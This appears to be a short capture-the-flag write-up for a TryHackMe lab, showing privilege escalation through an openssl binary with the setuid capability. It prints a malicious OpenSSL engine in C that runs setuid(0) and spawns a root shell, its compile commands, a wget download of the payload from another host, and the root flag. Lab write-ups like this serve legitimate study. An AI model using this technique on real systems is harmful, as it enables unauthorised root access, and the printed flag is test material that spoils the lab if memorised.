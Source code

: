
<img width="1116" height="556" alt="image" src="https://github.com/user-attachments/assets/9bd51386-acef-4a4e-b14e-193bb435ffbc" />

<img width="1115" height="340" alt="image" src="https://github.com/user-attachments/assets/339543d8-400b-47da-a1c8-0a0274a6d087" />

<p>https://gtfobins.github.io/gtfobins/openssl/#library-load</p>

<img width="1272" height="335" alt="image" src="https://github.com/user-attachments/assets/18089033-3b83-42c0-9319-42ac2f5d54db" />


```bash
mindgames@mindgames:~$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```


```bash
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    system("/bin/sh");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```


```bash
:~# gcc -fPIC -o rose.o -c rose.c
rose.c: In function \u2018bind\u2019:
rose.c:4:5: warning: implicit declaration of function \u2018setuid\u2019 [-Wimplicit-function-declaration]
    4 |     setuid(0);
      |     ^~~~~~
```

```bash
:~# gcc -shared -o rose.so -lcrypto rose.o
      |     ^~~~~~
```

```bash
mindgames@mindgames:/dev/shm$ wget http://10.10.222.80:8000/rose.so
...
mindgames@mindgames:/dev/shm$ chmod +x rose.so     
chmod +x rose.so
mindgames@mindgames:/dev/shm$ openssl req -engine ./rose.so
openssl req -engine ./rose.so
openssl req -engine ./rose.so
id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
cat /root/root.txt
thm{1974a617cc84c5b51411c283544ee254}
```
